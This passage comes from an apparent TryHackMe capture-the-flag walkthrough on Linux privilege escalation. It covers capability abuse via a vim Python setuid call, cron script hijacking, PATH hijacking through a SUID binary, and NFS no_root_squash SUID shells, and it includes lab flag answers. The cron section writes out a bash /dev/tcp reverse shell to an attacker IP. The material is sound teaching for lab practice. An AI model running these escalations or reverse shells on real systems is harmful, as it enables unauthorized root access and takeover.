./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We actually don’t need to use the first two lines of the script from GTFOBins, since we have a binary in a home directory with the proper capabilities. We can just manage with:

```bash
$ cd /home/ubuntu
$ ls
flag4.txt  view
$ /home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# whoami
root
# id      
uid=0(root) gid=1001(karen) groups=1001(karen)
# cat /home/ubuntu/flag4.txt
THM-9349843
```

### Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.


```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
You can see the `backup.sh` script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.

As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.

The script will use the tools available on the target system to launch a reverse shell.

Two points to note:

1. The command syntax will vary depending on the available tools. (e.g. `nc` will probably not support the `-e` option you may have seen used in other cases)
2. We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.

The file should look like this;

```bash
$ cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.157.157/1234 0>&1
$ chmod +x backup.sh
$ backup.sh
```

We will now run a listener on our attacking machine to receive the incoming connection.

```bash
root@ip-10-10-157-157:~# nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.168.106 40352
bash: cannot set terminal process group (12735): Inappropriate ioctl for device
bash: no job control in this shell 
root@ip-10-10-168-106:~# id      
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-168-106:~# find / -name flag5.txt 2>/dev/null
find / -name flag5.txt 2>/dev/null
/home/ubuntu/flag5.txt
root@ip-10-10-168-106:~# cat /home/ubuntu/flag5.txt
cat /home/ubuntu/flag5.txt
THM-383000283
```

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it
4. They do not clean the relevant cron job

This change management issue leads to a potential exploit leveraging cron jobs.

The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.

### PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

Typically the PATH will look like this:

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
  
For demo purposes, we will use the script below:

```bash
#include<unistd.h> 
void main() 
{ setuid(0); 
  setgid(0); 
  system("thm");
}
```

This script tries to launch a system binary called “thm” but the example can easily be replicated with any binary.

We compile this into an executable and set the SUID bit.



Our user now has access to the “path” script with SUID bit set.


Once executed “path” will look for an executable named “thm” inside folders listed under PATH.

If any writable folder is listed under PATH we could create a binary named thm under that directory and have our “path” script run it. As the SUID bit is set, this binary will run with root privilege

A simple search for writable folders can done using the “`find / -writable 2>/dev/null  | cut -d "/" -f 2 | sort -u`” command. The output of this command can be cleaned using a simple cut and sort sequence.

An alternative could be the command below.

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

We have added “grep -v proc” to get rid of the many results related to running processes.

The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.

At this point the path script will also look under the /tmp folder for an executable named “thm”.

Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.



We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.



<span style="font-size: 23px;">**Q&A**</span>

**Q1:** What is the odd folder you have write access for?

```bash
$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
dev/char
dev/fd
...
home/murdoch
...
var/lock
var/tmp
```

**Q2:** What is the content of the flag6.txt file?

```bash
$ find / -name flag6.txt 2>/dev/null
/home/matt/flag6.txt

$ pwd
/home/murdoch
$ ls -l
total 24
-rwsr-xr-x 1 root root 16712 Jun 20  2021 test
-rw-rw-r-- 1 root root    86 Jun 20  2021 thm.py
$ file test
test: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1724ca90b94176ea2eb867165e837125e8e5ca52, for GNU/Linux 3.2.0, not stripped
$ cat thm.py
/usr/bin/python3

import os
import sys

try: 
        os.system("thm")
except:
        sys.exit()


$ echo "cat /home/matt/flag6.txt" > thm
$ ls
test  thm  thm.py
$ cat thm
cat /home/matt/flag6.txt
$ chmod +x thm
$ ./test
THM-736628929
```

### NFS

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

```bash
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
The critical element for this privilege escalation vector is the “**no_root_squash**” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system

**Key Vectors:**

- NFS configurations are stored in /etc/exports.
- The “**no_root_squash**” option allows files created on the share to retain root privileges instead of being mapped to nfsnobody.
- This enables an attacker to:
  1. Mount the share remotely.
  2. Create an SUID executable that runs /bin/bash.
  3. Execute it on the target system with root privileges.


We will start by enumerating mountable shares from our attacking machine.

```bash
root@ip-10-10-232-104:~# showmount -e 10.10.244.157
Export list for 10.10.244.157:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.

```bash
root@ip-10-10-232-104:~# mkdir /tmp/attacknfs
root@ip-10-10-232-104:~# mount -o rw 10.10.244.157:/home/ubuntu/sharedfolder /tmp/attacknfs
root@ip-10-10-232-104:~# cd /tmp/attacknfs/
root@ip-10-10-232-104:/tmp/attacknfs# ls
root@ip-10-10-232-104:/tmp/attacknfs# nano nfs.c
```
As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

```bash
int main() 
{ 
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
  return 0;
}
```
Once we compile the code we will set the SUID bit.

```bash
root@ip-10-10-232-104:/tmp/attacknfs# cat nfs.c
int main() 
{ 
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
  return 0;
}

root@ip-10-10-232-104:/tmp/attacknfs# gcc nfs.c -o nfs -w
root@ip-10-10-232-104:/tmp/attacknfs# ls
nfs  nfs.c
root@ip-10-10-232-104:/tmp/attacknfs# ls -l
total 24
-rwxr-xr-x 1 root root 16784 Jun 26 19:37 nfs
-rw-r--r-- 1 root root    81 Jun 26 19:36 nfs.c
root@ip-10-10-232-104:/tmp/attacknfs# chmod +s nfs
root@ip-10-10-232-104:/tmp/attacknfs# ls -l
total 24
-rwsr-sr-x 1 root root 16784 Jun 26 19:37 nfs
-rw-r--r-- 1 root root    81 Jun 26 19:36 nfs.c
```

You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).

```bash
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ cd /home/ubuntu/sharedfolder
$ ls
nfs  nfs.c
$ ./nfs 
root@ip-10-10-244-157:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-244-157:/home/ubuntu/sharedfolder# ls
nfs  nfs.c
root@ip-10-10-244-157:/home/ubuntu/sharedfolder# find / -name flag7.txt 2>/dev/null
/home/matt/flag7.txt
root@ip-10-10-244-157:/home/ubuntu/sharedfolder# cat /home/matt/flag7.txt
THM-89384012
```